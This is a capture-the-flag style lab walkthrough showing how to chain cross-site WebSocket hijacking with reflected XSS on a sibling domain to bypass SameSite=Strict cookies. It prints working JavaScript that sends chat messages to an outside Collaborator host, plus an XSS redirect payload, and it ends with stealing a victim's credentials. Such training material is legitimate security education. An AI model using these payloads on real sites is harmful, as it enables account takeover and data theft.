


# Lab 9: SameSite Strict bypass via sibling domain

## ✅ Lab Objective

**Exploit a CSWSH vulnerability to retrieve the victim's chat history and extract their credentials.**

---

## 🧪 Step-by-Step Solution

### 🔍 Study the Live Chat Feature

- 💬 **Interact with the chat:**
    - In Burp's browser, open the **live chat feature** and send a few messages.
- 📜 **Inspect the WebSocket handshake:**
    - Go to **Proxy > HTTP history** in Burp.
    - Look for the latest `GET /chat` request — this is the **WebSocket handshake**.
    - 📌 Notice that **no unpredictable tokens** are used → possible CSWSH vulnerability.
- 🔄 **Refresh the chat page:**
    - Go back to the browser and refresh the live chat page.
    - Open **Proxy > WebSockets history** in Burp.
    - 📨 Notice that the browser sends a `READY` message.
    - 📥 The server responds with the **entire chat history**.
        
        
        
        
        
        
        

---

### ✅ Confirm the CSWSH Vulnerability

- 📋 **Get a Collaborator payload:**
    - Go to **Burp > Collaborator tab** and click **Copy to clipboard**.
- 🧬 **Create a CSWSH proof-of-concept (PoC):**
    - In the **exploit server**, paste the following script:
        
        ```html
        <script>
            var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
            ws.onopen = function() {
                ws.send("READY");
            };
            ws.onmessage = function(event) {
                fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
            };
        </script>
        
        ```
        
- 👀 **Test it:**
    - Store and view the exploit.
    - Poll Burp Collaborator.
    - ✔️ If an HTTP interaction is shown, the PoC **successfully connected** to the chat.
- 🚫 **Limitation:**
    - The chat history is only for **a new session**, not the victim’s.
- 🔍 **Inspect the handshake request:**
    - Go to **Proxy > HTTP history** and check the `GET /chat` request made by your PoC.
    - 🚫 It does **not contain your session cookie**.
- 🍪 **Cookie restriction identified:**
    - The server sets cookies with `SameSite=Strict`.
    - ❌ Prevents sending cookies in cross-site WebSocket requests.
        
        
        
        
        
        
        
        
        
        
        
        
        
        
        
        
        
        
        

---

### 🧠 Identify an Additional Vulnerability in the Same "Site"

- 🔎 **Look for sibling domain exposure:**
    - In Burp Proxy history, observe the `Access-Control-Allow-Origin` headers in some responses.
    - 🧭 Discover a sibling domain:
        
        `cms-YOUR-LAB-ID.web-security-academy.net`
        
- 🔐 **Check for XSS:**
    - Open the URL in a browser.
    - Submit arbitrary login credentials.
    - 👁️ The **username is reflected** in the response.
- 💥 **Inject XSS:**
    - Try payload: `<script>alert(1)</script>`
    - ✅ Alert is triggered → **Reflected XSS confirmed.**
- 📤 **Modify the request:**
    - Send the `POST /login` with payload to **Burp Repeater**.
    - Change the method to `GET` → still works.
    - Copy and open the URL → XSS triggers.
- 🧩 **Why this matters:**
    - This sibling domain is **part of the same site**.
    - Using this XSS avoids the `SameSite=Strict` issue.

---

### 🛠️ Bypass SameSite Restrictions

- 💻 **Rebuild CSWSH script:**
    
    ```html
    <script>
        var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
        ws.onopen = function() {
            ws.send("READY");
        };
        ws.onmessage = function(event) {
            fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
        };
    </script>
    
    ```
    
- 🧵 **URL encode the script** (use any online encoder).
- 🧠 **Trigger XSS using the encoded script:**
    
    ```html
    <script>
        document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
    </script>
    
    ```
    
- 💾 **Store and view the exploit.**
- 📬 **Poll Collaborator:**
    - You’ll receive multiple new **interactions**.
    - These contain the **entire chat history** of the current session.
- 🍪 **Verify session cookie:**
    - Go to Proxy > HTTP history.
    - Check the new `GET /chat` WebSocket request.
    - ✅ This time, the request **includes the session cookie**.
        
        
        
        
        
        
        
        
        
        
        
        
        

---

### 🚀 Deliver the Exploit Chain

- 🎯 **Send the final exploit to the victim** using the exploit server.
- 📥 **Poll Burp Collaborator:**
    - You should receive new HTTP interactions.
    - These include the **victim’s chat history**.
- 🔐 **Extract credentials:**
    - Locate a message in the chat history with the **victim’s username and password**.
- 🔓 **Log in as the victim.**
- 🎉 **Lab Solved!**
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    

---

## 📺 Community Solution

> 🔗 [Watch the walkthrough video](https://youtu.be/8RmZ1PbNZ7Y)
>